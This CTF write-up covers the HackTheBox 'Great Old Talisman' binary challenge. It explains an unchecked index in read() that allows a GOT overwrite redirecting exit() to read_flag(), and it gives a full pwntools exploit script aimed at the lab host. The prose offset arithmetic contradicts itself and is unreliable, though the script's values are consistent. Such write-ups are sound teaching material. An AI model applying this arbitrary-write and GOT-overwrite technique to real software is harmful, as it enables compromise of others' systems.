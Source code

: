 ```yaml
---
title: "Great Old Talisman - Writeup | University CTF 2023: Brains & Bytes"
layout: post
author: Jorge Moreno
---
```


This challenge is part of the event [HackTheBox University CTF 2023: Brains & Bytes](../htb-bb-2023-ctf)

## Challenge Description

---

> Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Very Easy**

## Challenge Solution

---

First, we check the file with ``file`` and ``checksec`` commands:

We can see it is dinamically linked 64-bit binary. With canary (stack protector) and the No eXecute bit so we can’t use shellcode to pwn this challenge.

The first thing we see after executing the vulnerable binary is the following text:

![Untitled](images/great-old-talisman/Untitled.png)

It prompts us for a number 1 or 0. After that it receives an input of 2 bytes from stdin.

Let's begin with with the decompiling.

```c
void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 canary;
  
  canary = *(undefined8 *)(canary + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies! (...) \n>> "
        );
  __isoc99_scanf("%d",&option);
  printf("\nSpell: ");
  read(0,talis + (long)option * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The main function reads from stdin the option and then uses it to store the 2 bytes that we send it.

```c
read(0,talis + (long)option * 8,2);
```

Reads 2 bytes and stores it in the address of ``talis + (option * 8)``. This line is vulnerable to arbitrary write, because as we can see there are not limits inside the integer that we can send to the program. So we could overwrite any address we want with an arbitrary (2 byte long) value. 

In this case we can see that there is also a function called ``read_flag()`` that prints the flag to us.

In the assembly code for ``main()`` function we can see that the next function called right after ``read()`` is ``exit()``

![Untitled](images/great-old-talisman/Untitled%201.png)

With the ``dump qword`` command from ``gdb-pwndbg`` we check the address of ``talis``.

![Untitled](images/great-old-talisman/Untitled%202.png)

And ``read_flag()`` with info fun.

![Untitled](images/great-old-talisman/Untitled%203.png)

We can check the ``exit@GOT`` function with Ghidra:

![Untitled](images/great-old-talisman/Untitled%204.png)

So we could maybe overwrite the exit function last 2 bytes with the bug we saw before.

To do this we have to calculate the offset and get a number that we can send to the program that after being multiplicated by 8 and added to **talis** is the address of **exit.**

``0x404080 - 0x4040a0 = -32``

We know that it multiplicates it by 8 so we can send -4. That way it will store the 2 bytes that we send at ``0x404080 + (-4*8) = 0x4040a0 (exit.got.plt)`` 

Now we send the last two bytes of the ``read_flag()`` function address ``\x5a\x13`` and we can grab our flag.

## Full Script

---

{% highlight python %}
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './chall', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.48.55", 56734)
    #nc 94.237.48.55 56734
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exit_got = 0x404080
talis = 0x4040a0 

# Escribo \x5a\x13 en 0x404080 + (0x404080 - 0x4040a0)
# Le pasamos primero option = -0x20 = -32
# Le pasamos -4 porque el read multiplica option * 8. 
# Le pasamos los 2 bytes de la direccion y lo tira

io = start()

io.sendlineafter(b'>>', b'-4')
io.recvuntil(b':')
io.send(b'\x5a\x13')

io.interactive()
{% endhighlight %}


**FLAG - HTB{th4nk_G0T_w3_h4v3_th15_t4l15m4n}**